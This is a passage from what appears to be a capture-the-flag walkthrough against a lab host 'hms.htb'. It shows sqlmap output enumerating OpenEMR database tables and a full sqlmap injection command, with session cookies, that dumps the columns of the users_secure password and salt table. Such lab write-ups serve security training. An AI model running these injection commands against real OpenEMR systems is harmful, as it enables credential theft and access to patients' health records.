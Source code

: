 <br />
```bash
...
[13:44:12] [INFO] retrieved: 'therapy_groups'
[13:44:12] [INFO] retrieved: 'therapy_groups_counselors'
[13:44:12] [INFO] retrieved: 'therapy_groups_participant_attendance'
[13:44:13] [INFO] retrieved: 'therapy_groups_participants'
[13:44:13] [INFO] retrieved: 'transactions'
[13:44:13] [INFO] retrieved: 'user_settings'
[13:44:14] [INFO] retrieved: 'users'
[13:44:14] [INFO] retrieved: 'users_facility'
[13:44:14] [INFO] retrieved: 'users_secure'
[13:44:14] [INFO] retrieved: 'valueset'
[13:44:15] [INFO] retrieved: 'version'
[13:44:15] [INFO] retrieved: 'voids'
[13:44:15] [INFO] retrieved: 'x12_partners'
...
| therapy_groups                        |
| therapy_groups_counselors             |
| therapy_groups_participant_attendance |
| therapy_groups_participants           |
| transactions                          |
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+

```
<br />We are now going to leak the columns of users_secure:
<br />
```bash

sqlmap -u "http://hms.htb/portal/find_appt_popup_user.php?catid=1" --cookie "OpenEMR=m3s59f9ekb4dokt8po0ecp7u9b;PHPSESSID=4gnsf5ooj66r8rflrrp4r8r6u9" -D openemr -T users_secure --columns

```
<br />Result:
<br />
```bash
...
Database: openemr
Table: users_secure
[9 columns]
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| id                | bigint(20)   |
| password          | varchar(255) |
| last_update       | timestamp    |
| password_history1 | varchar(255) |
| password_history2 | varchar(255) |
| salt              | varchar(255) |
| salt_history1     | varchar(255) |
| salt_history2     | varchar(255) |
| username          | varchar(255) |
+-------------------+--------------+

```

